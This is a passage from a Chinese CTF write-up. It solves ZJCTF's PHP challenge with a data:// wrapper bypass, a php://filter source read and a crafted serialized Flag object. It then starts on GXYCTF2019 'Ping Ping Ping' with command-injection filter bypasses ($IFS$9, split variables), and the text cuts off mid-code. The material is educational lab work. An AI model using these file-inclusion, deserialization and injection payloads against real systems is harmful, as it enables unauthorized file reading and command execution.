 第一个绕过：
```php
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf"))
```
使用data伪协议，data协议通常是用来执行PHP代码，然而我们也可以将内容写入data协议中然后让file_get_contents函数取读取
`text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=`，那串base64解码即为welcome to the zjctf
第二个绕过：
```php
$file = $_GET["file"];
if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
```
有file参数，但无法直接读取flag，使用filter来读useless.php的源码
`file=php://filter/read=convert.base64-encode/resource=useless.php`
![](https://img-blog.csdnimg.cn/20200316202442853.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
第三个绕过：
```php
$password = $_GET["password"];
include($file);  //useless.php
$password = unserialize($password);
echo $password;
```
为反序列化，构造需要的参数即可，在本地序列化
```php
<?php  
class Flag{
    public $file='flag.php';  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
} 
$password=new Flag();
$password = serialize($password);
echo $password; 
?>
```
![](https://img-blog.csdnimg.cn/20200316203104171.png)
运行得到序列化的结果：`O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}`，用password传参即可
![](https://img-blog.csdnimg.cn/20200316203324816.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
查看源码得到flag
![](https://img-blog.csdnimg.cn/20200316203401243.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
## [GXYCTF2019]Ping Ping Ping
打开很明显为命令执行，先执行ls
![](https://img-blog.csdnimg.cn/20200316204454816.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
fuzz发现过滤了：空格 / + * ? { } ( ) [ ]等符号以及flag字符串，但=和\$没有过滤,用`$IFS$9`过滤空格，`a=fl;b=ag;$a$b`过滤flag，无用！！
查看index.php
![](https://img-blog.csdnimg.cn/20200316210436816.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
**RCE读取PHP文件时，一定要从源代码看，因为PHP不能被解析!**
```php
<?php
if(isset($_GET['ip'])){
```